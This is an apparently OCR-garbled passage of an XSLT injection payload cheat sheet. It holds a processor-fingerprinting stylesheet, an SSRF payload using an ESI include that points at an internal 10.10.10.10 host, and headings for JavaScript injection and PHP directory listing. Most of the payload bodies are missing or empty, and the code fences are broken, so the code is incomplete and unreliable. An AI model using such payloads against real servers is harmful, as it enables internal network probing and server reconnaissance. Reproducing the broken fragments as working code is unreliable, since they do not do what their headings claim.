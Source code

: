 ```

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:template match="/">
 Version:   

 Vendor:   

 Vendor URL:   

 <xsl:if test="system-property('xsl:product-name')">
 Product Name:   

 </xsl:if>
 <xsl:if test="system-property('xsl:product-version')">
 Product Version:   

 </xsl:if>
 <xsl:if test="system-property('xsl:is-schema-aware')">
 Is Schema Aware ?:   

 </xsl:if>
 <xsl:if test="system-property('xsl:supports-serialization')">
 Supports Serialization:   

 </xsl:if>
 <xsl:if test="system-property('xsl:supports-backwards-compatibility')">
 Supports Backwards Compatibility:   

 </xsl:if>
</xsl:template>
</xsl:stylesheet>
```
```
## SSRF

```xml
<esi:include src="http://10.10.10.10/data/news.xml" stylesheet="http://10.10.10.10//news_template.xsl">
</esi:include>
```
```
## Javascript Injection

```xml
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:template match="/">

</xsl:template>
</xsl:stylesheet>
```
```
## Directory listing (PHP)

### **Opendir + readdir**

```xml
<?xml version="1.0" encoding="utf-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl" >
<xsl:template match="/">

 -
 -
```